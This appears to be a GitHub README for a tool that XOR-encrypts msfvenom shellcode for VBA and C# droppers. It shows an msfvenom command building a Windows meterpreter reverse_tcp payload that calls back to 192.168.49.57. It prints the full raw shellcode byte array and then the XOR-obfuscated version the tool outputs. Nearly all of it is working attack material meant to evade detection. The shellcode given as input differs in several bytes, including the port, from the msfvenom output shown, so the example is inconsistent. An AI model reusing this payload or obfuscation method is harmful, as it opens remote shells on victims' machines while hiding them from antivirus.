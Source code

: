 # XOR_Payload_encryption
This project is ment to be use as an encryptor shellcode produced by msfvenom for "-f vbapplication" and "-f csharp"



➜  ~ msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.49.57 LPORT=443 EXITFUNC=thread -f vbapplication
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 375 bytes

Final size of vbapplication file: 1302 bytes
buf = Array(252,232,143,0,0,0,96,137,229,49,210,100,139,82,48,139,82,12,139,82,20,49,255,139,114,40,15,183,74,38,49,192,172,60,97,124,2,44,32,193,207,13,1,199,73,117,239,82,139,82,16,87,139,66,60,1,208,139,64,120,133,192,116,76,1,208,80,139,88,32,139,72,24,1,211,133,201,116,60,73,49, _
255,139,52,139,1,214,49,192,172,193,207,13,1,199,56,224,117,244,3,125,248,59,125,36,117,224,88,139,88,36,1,211,102,139,12,75,139,88,28,1,211,139,4,139,1,208,137,68,36,36,91,91,97,89,90,81,255,224,88,95,90,139,18,233,128,255,255,255,93,104,51,50,0,0,104,119,115,50,95,84, _
104,76,119,38,7,137,232,255,208,184,144,1,0,0,41,196,84,80,104,41,128,107,0,255,213,106,10,104,192,168,49,57,104,2,0,1,187,137,230,80,80,80,80,64,80,64,80,104,234,15,223,224,255,213,151,106,16,86,87,104,153,165,116,97,255,213,133,192,116,10,255,78,8,117,236,232,103,0,0,0, _
106,0,106,4,86,87,104,2,217,200,95,255,213,131,248,0,126,54,139,54,106,64,104,0,16,0,0,86,106,0,104,88,164,83,229,255,213,147,83,106,0,86,83,87,104,2,217,200,95,255,213,131,248,0,125,40,88,104,0,64,0,0,106,0,80,104,11,47,15,48,255,213,87,104,117,110,77,97,255,213, _
94,94,255,12,36,15,133,112,255,255,255,233,155,255,255,255,1,195,41,198,117,193,195,187,224,29,42,10,104,166,149,189,157,255,213,60,6,124,10,128,251,224,117,5,187,71,19,114,111,106,0,83,255,213)


Running: 
xorsharp

 xorcharp  'buf = Array(252,232,143,0,0,0,96,137,229,49,210,100,139,82,48,139,82,12,139,82,20,139,114,40,15,183,74,38,49,255,49,192,172,60,97,124,2,44,32,193,207,13,1,199,73,117,239,82,139,82,16,87,139,66,60,1,208,139,64,120,133,192,116,76,1,208,80,139,72,24,139,88,32,1,211,133,201,116,60,73,139, _
52,139,49,255,1,214,49,192,172,193,207,13,1,199,56,224,117,244,3,125,248,59,125,36,117,224,88,139,88,36,1,211,102,139,12,75,139,88,28,1,211,139,4,139,1,208,137,68,36,36,91,91,97,89,90,81,255,224,88,95,90,139,18,233,128,255,255,255,93,104,51,50,0,0,104,119,115,50,95,84, _
104,76,119,38,7,137,232,255,208,184,144,1,0,0,41,196,84,80,104,41,128,107,0,255,213,106,10,104,192,168,49,57,104,2,0,32,90,137,230,80,80,80,80,64,80,64,80,104,234,15,223,224,255,213,151,106,16,86,87,104,153,165,116,97,255,213,133,192,116,10,255,78,8,117,236,232,103,0,0,0, _
106,0,106,4,86,87,104,2,217,200,95,255,213,131,248,0,126,54,139,54,106,64,104,0,16,0,0,86,106,0,104,88,164,83,229,255,213,147,83,106,0,86,83,87,104,2,217,200,95,255,213,131,248,0,125,40,88,104,0,64,0,0,106,0,80,104,11,47,15,48,255,213,87,104,117,110,77,97,255,213, _
94,94,255,12,36,15,133,112,255,255,255,233,155,255,255,255,1,195,41,198,117,193,195,187,224,29,42,10,104,166,149,189,157,255,213,60,6,124,10,128,251,224,117,5,187,71,19,114,111,106,0,83,255,213)' 0xbd

--> Output:


Counter:  376
Key:  0xbd
Key:  189
buf =  Array(189, 189, 189, 221, 52, 88, 140, 111, 217, 54, 239, 141, 54, 239, 177, 54, 239, 169, 54, 207, 149, 178, 10, 247, 155, 140, 66, 140, 125, 17, 129, 220, 193, 191, 145, 157, 124, 114, 176, 188, 122, 244, 200, 82, 239, 54, 239, 173, 234, 54, 255, 129, 188, 109, 54, 253, 197, 56, 125, 201, 241, 188, 109, 237, 54, 245, 165, 54, 229, 157, 188, 110, 56, 116, 201, 129, 244, 54, _
137, 54, 140, 66, 188, 107, 140, 125, 17, 124, 114, 176, 188, 122, 133, 93, 200, 73, 190, 192, 69, 134, 192, 153, 200, 93, 229, 54, 229, 153, 188, 110, 219, 54, 177, 246, 54, 229, 161, 188, 110, 54, 185, 54, 188, 109, 52, 249, 153, 153, 230, 230, 220, 228, 231, 236, 66, 93, 229, 226, 231, 54, 175, 84, 61, 66, 66, 66, 224, 213, 142, 143, 189, 189, 213, 202, 206, 143, 226, 233, _
213, 241, 202, 155, 186, 52, 85, 66, 109, 5, 45, 188, 189, 189, 148, 121, 233, 237, 213, 148, 61, 214, 189, 66, 104, 215, 183, 213, 125, 21, 140, 132, 213, 191, 189, 157, 231, 52, 91, 237, 237, 237, 237, 253, 237, 253, 237, 213, 87, 178, 98, 93, 66, 104, 42, 215, 173, 235, 234, 213, 36, 24, 201, 220, 66, 104, 56, 125, 201, 183, 66, 243, 181, 200, 81, 85, 218, 189, 189, 189, _
215, 189, 215, 185, 235, 234, 213, 191, 100, 117, 226, 66, 104, 62, 69, 189, 195, 139, 54, 139, 215, 253, 213, 189, 173, 189, 189, 235, 215, 189, 213, 229, 25, 238, 88, 66, 104, 46, 238, 215, 189, 235, 238, 234, 213, 191, 100, 117, 226, 66, 104, 62, 69, 189, 192, 149, 229, 213, 189, 253, 189, 189, 215, 189, 237, 213, 182, 146, 178, 141, 66, 104, 234, 213, 200, 211, 240, 220, 66, 104, _
227, 227, 66, 177, 153, 178, 56, 205, 66, 66, 66, 84, 38, 66, 66, 66, 188, 126, 148, 123, 200, 124, 126, 6, 93, 160, 151, 183, 213, 27, 40, 0, 32, 66, 104, 129, 187, 193, 183, 61, 70, 93, 200, 184, 6, 250, 174, 207, 210, 215, 189, 238, 66, 104 )




